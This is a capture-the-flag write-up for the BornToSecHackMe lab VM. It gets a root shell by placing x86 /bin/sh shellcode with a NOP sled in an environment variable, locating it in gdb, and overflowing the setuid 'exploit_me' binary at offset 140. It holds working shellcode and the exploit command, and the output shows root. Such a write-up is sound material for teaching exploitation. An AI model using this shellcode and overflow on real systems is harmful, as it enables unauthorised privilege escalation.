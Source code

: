 # Zaz alternative root shell

This is an alternative way to obtain a root shell from the zaz user.

We will use the buffer overflow again. This time we are not trying to access the `/bin/sh` address. Instead we will use a shellcode to open the root shell.

We will even work our way as if there were canary protection against stack address modifications.

First let's inject our shellcode inside an environement variable, this way we will be able to point our program to this variable later, instead of directly injecting the shellcode in the buffer overflow, and modifying the stack.

```
export SHELLCODE=`python -c 'print "\x90" * 900 + "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh"'`
```

Our shellcode also has 900 `\x90` inside it, called "nop", it will help us for "aiming" at the right address and avoid memory padding problems. Once we manage to point inside the Nops, the programm will jump from nop to nop until it find the beginning of our shellcode.

Let's find the address of our "SHELLCODE" environment variable.

```
gdb exploit_me
(gdb) b *main
(gdb) r
(gdb) x/s *((char **)environ+0)
0xbffff56f: "SHELLCODE=\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220"...     
```

This will show us the most recent environment variable, which is SHELLCODE. Now let's an address in the middle of the nopsled:

```
(gdb) x/150xg 0xbffff56f
0xbffff56f:     0x444f434c4c454853      0x9090909090903d45                                                                                         
0xbffff57f:     0x9090909090909090      0x9090909090909090
0xbffff58f:     0x9090909090909090      0x9090909090909090                                                                                         
0xbffff59f:     0x9090909090909090      0x9090909090909090                                                                                         
0xbffff5af:     0x9090909090909090      0x9090909090909090                                                                                         
0xbffff5bf:     0x9090909090909090      0x9090909090909090                                                                                         
0xbffff5cf:     0x9090909090909090      0x9090909090909090                                                                                         
0xbffff5df:     0x9090909090909090      0x9090909090909090                                                                                         
0xbffff5ef:     0x9090909090909090      0x9090909090909090                                                                                         
0xbffff5ff:     0x9090909090909090      0x9090909090909090                                                                                         
0xbffff60f:     0x9090909090909090      0x9090909090909090                                                                                         
0xbffff61f:     0x9090909090909090      0x9090909090909090                                                                                         
0xbffff62f:     0x9090909090909090      0x9090909090909090                                                                                         
0xbffff63f:     0x9090909090909090      0x9090909090909090                                                                                         
0xbffff64f:     0x9090909090909090      0x9090909090909090                                                                                         
0xbffff65f:     0x9090909090909090      0x9090909090909090                                                                                         
0xbffff66f:     0x9090909090909090      0x9090909090909090                                                                                         
0xbffff67f:     0x9090909090909090      0x9090909090909090                                                                                         
0xbffff68f:     0x9090909090909090      0x9090909090909090                                                                                         
0xbffff69f:     0x9090909090909090      0x9090909090909090                                                                                         
0xbffff6af:     0x9090909090909090      0x9090909090909090                                                                                         
0xbffff6bf:     0x9090909090909090      0x9090909090909090                                                                                         
0xbffff6cf:     0x9090909090909090      0x9090909090909090                                                                                         
0xbffff6df:     0x9090909090909090      0x9090909090909090                                                                                         
0xbffff6ef:     0x9090909090909090      0x9090909090909090                                                                                         
0xbffff6ff:     0x9090909090909090      0x9090909090909090                                                                                         
0xbffff70f:     0x9090909090909090      0x9090909090909090                                                                                         
0xbffff71f:     0x9090909090909090      0x9090909090909090                                                                                         
0xbffff72f:     0x9090909090909090      0x9090909090909090 
0xbffff73f:     0x9090909090909090      0x9090909090909090                                                                                         
0xbffff74f:     0x9090909090909090      0x9090909090909090                                                                                         
0xbffff75f:     0x9090909090909090      0x9090909090909090                                                                                        
0xbffff76f:     0x9090909090909090      0x9090909090909090                                                                                         
0xbffff77f:     0x9090909090909090      0x9090909090909090                                                                                         
0xbffff78f:     0x9090909090909090      0x9090909090909090                                                                                         
0xbffff79f:     0x9090909090909090      0x9090909090909090                                                                                         
0xbffff7af:     0x9090909090909090      0x9090909090909090                                                                                         
0xbffff7bf:     0x9090909090909090      0x9090909090909090                                                                                         
0xbffff7cf:     0x9090909090909090      0x9090909090909090                                                                                         
0xbffff7df:     0x9090909090909090      0x9090909090909090                                                                                         
0xbffff7ef:     0x9090909090909090      0x9090909090909090                                                                                         
0xbffff7ff:     0x9090909090909090      0x9090909090909090                                                                                         
0xbffff80f:     0x9090909090909090      0x9090909090909090                                                                                         
0xbffff81f:     0x9090909090909090      0x9090909090909090                                                                                         
0xbffff82f:     0x9090909090909090      0x9090909090909090                                                                                         
0xbffff83f:     0x9090909090909090      0x9090909090909090                                                                                         
0xbffff84f:     0x9090909090909090      0x9090909090909090                                                                                         
0xbffff85f:     0x9090909090909090      0x9090909090909090                                                                                         
0xbffff86f:     0x9090909090909090      0x9090909090909090                                                                                         
0xbffff87f:     0x9090909090909090      0x9090909090909090                                                                                         
0xbffff88f:     0x9090909090909090      0x9090909090909090                                                                                         
0xbffff89f:     0x9090909090909090      0x9090909090909090                                                                                         
0xbffff8af:     0x9090909090909090      0x9090909090909090                                                                                         
0xbffff8bf:     0x9090909090909090      0x9090909090909090                                                                                         
0xbffff8cf:     0x9090909090909090      0x9090909090909090                                                                                         
0xbffff8df:     0x9090909090909090      0x9090909090909090                                                                                         
0xbffff8ef:     0x9090909090909090      0x1feb909090909090                                                                                         
0xbffff8ff:     0x4688c0310876895e      0xf3890bb00c468907                                                                                        
0xbffff90f:     0x80cd0c568d084e8d      0xe880cd40d889db31                                                                                         
0xbffff91f:     0x6e69622fffffffdc      0x4c4548530068732f                                                                                         
0xbffff92f:     0x622f6e69622f3d4c      0x4d52455400687361
```

Let's pick the address : `0xbffff73f` who is located in the middle of the nopsled. Now we translate for the asm : `\x3f\xf7\xff\xbf`

As explained the writeup2.md, the buffer overflow offset is 140, so we will use that knowledge in our input.
We will make the program to the SHELLCODE variable with the buffer overflow, who will execute our shellcode:

```
./exploit_me $(python -c 'print "i"*140 + "\x3f\xf7\xff\xbf"')
```
zaz@BornToSecHackMe:~$ ./exploit_me $(python -c 'print "i"*140 + "\x3f\xf7\xff\xbf"')                                                              iiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiii?      
pwd                                                                                                                                              
/home/zaz                                                                                                                                          
whoami                                                                                                                                     
root                                                                                                                                               
```

We are root ! :3 UwU